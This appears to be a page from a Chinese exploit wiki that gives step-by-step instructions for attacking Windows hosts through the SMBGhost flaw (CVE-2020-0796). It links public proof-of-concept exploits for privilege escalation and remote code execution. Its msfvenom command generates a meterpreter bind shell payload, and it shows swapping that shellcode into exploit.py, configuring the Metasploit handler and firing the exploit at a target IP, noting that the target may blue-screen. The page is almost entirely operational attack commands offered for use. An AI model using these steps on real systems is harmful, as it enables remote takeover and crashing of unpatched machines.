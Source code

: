 
<a-alert type="success" message="CVE-2020-0796 本地提权EXP https://github.com/danigargu/CVE-2020-0796" description="" showIcon>
</a-alert>
<br/>

运行应用程序后弹出cmd窗口为 system权限

![img](/assets/PeiQi-Wiki/img/1627103611077-e1fc15be-d3ea-4036-82f2-5cf7a90f7ea9.png)

或者使用 MSF的内置EXP windows/local/cve_2020_0796_smbghost 来本地提权 

<a-alert type="success" message="https://github.com/chompie1337/SMBGhost_RCE_PoC" description="" showIcon>
</a-alert>
<br/>

`msfvenom生成reversed shellcode`

`msfvenom -p windows/x64/meterpreter/bind_tcp lport=2333 -f py -o exp.py`

将生成exp.py中的shellcode替换exploit.py中的shellcode

![img](/assets/PeiQi-Wiki/img/1627103611172-2054aa5a-50ed-4b22-b507-2e2708bb277b.png)

![img](/assets/PeiQi-Wiki/img/1627103611207-6e81b26c-ebc8-4012-a66a-cd4cb919ca53.png)

`buf 要替换为 USER_PAYLOAD`，使用 MSF, `注意有蓝屏概率`

```shell
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set lport 2333
lport => 2333
msf5 exploit(multi/handler) > set rhost 192.168.1.110
rhost => 192.168.1.110
msf5 exploit(multi/handler) > exploit
执行脚本即可
python3 exploit.py  -ip 192.168.1.110
```

